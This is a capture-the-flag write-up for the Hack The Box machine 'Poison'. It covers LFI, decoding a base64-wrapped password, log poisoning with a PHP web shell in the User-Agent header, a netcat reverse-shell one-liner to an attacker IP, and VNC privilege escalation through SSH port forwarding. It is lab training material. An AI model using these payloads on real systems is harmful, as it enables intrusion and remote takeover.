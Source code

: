 ## Poison

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.10.84 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/bc68034a-3fc7-42a6-8b81-d912d1cb0c12)

<br>

The website has a function to test scripts that executes php.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/7dce5b7a-4c54-4519-91a7-f90a70a30dc2)

<br>

The file parameter is vulnerable to LFI. Accessing /etc/passwd we enumerate "charix" user.

![lfiPasswd](https://github.com/b1d0ws/OSCP/assets/58514930/8478f827-d8ac-417b-b8d6-8a126c25072f)

<br>

Reading listfiles.php, we find a pwdbackup.txt.  

This is the easiest way to get user shell. Read this file, decrypt it 13 times in base64 and access user charix.  

This script speed this process.

```bash
#!/bin/bash
message="PASSWORD"
for (( i=1; i<=13; i++ )); do
    message=$(echo "$message" | base64 -d)
done
echo "Decoded message: $message
```

![listfilesPHP](https://github.com/b1d0ws/OSCP/assets/58514930/1fdc2aad-0101-43dd-872a-db3a54dfa87c)

![pwdBackupTxt](https://github.com/b1d0ws/OSCP/assets/58514930/f171b3c2-b212-4d35-b41e-e1583e6096e1)

![decryptPass](https://github.com/b1d0ws/OSCP/assets/58514930/3cb7ebe0-3fde-4427-9300-da3fc214d1c1)

<br>

The other way to get the user shell is via LFI Log Poisoning.  

You can access the log files in /var/log/httpd-access.log  

![accessLog](https://github.com/b1d0ws/OSCP/assets/58514930/d2ebce12-d4ab-4dae-b508-dd064109d36f)

<br>

Put a web shell with user-agent header and access the log file to get the reverse shell.

```
User-Agent: <php system($_GET['cmd']); ?>
curl "http://poison.htb/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f"
```

![requestUserAgent](https://github.com/b1d0ws/OSCP/assets/58514930/424f69ed-ab78-43de-a7d9-3d4d1feeb4d1)

![gettingReverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/23e0fa25-3744-4d20-9102-5d212131d485)

<br>

### Root Flag

Inside user home, there is a secret file. Copy to our machine wich scp and read it. It seems that it is ofuscated.

```
scp charix@poison.htb:/home/charix/secret.zip .
```

![secretFile](https://github.com/b1d0ws/OSCP/assets/58514930/a8b09257-5724-4c93-bbac-9a748d85aa0b)

<br>

Enumerating the machine, we discover a root process running VNC.

```
ps -aux
```

![xvncProcess](https://github.com/b1d0ws/OSCP/assets/58514930/9e0e1c27-a649-4127-b2cf-f0b3028a6796)

<br>

Checking for open ports, we see VNC ports running: 5801 and 5901.

```
netstat -na -f inet
```

![runningPorts](https://github.com/b1d0ws/OSCP/assets/58514930/d4246cca-5579-4965-982c-720055f712bf)

<br>

We can port forward this and connect to VNC with the secret file as password.

```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
vncviewer -passwd secret 127.0.0.1::5901
```

![rootVNC](https://github.com/b1d0ws/OSCP/assets/58514930/5f353518-82bb-48ee-ad02-1f7d0f07d728)

<br>

Bonus: we can also discover the password with vncpwd.

```
./vncpwd ../secret
```

![vncPassword](https://github.com/b1d0ws/OSCP/assets/58514930/2fa04f63-bd12-46a7-8173-feab8ca11e22)
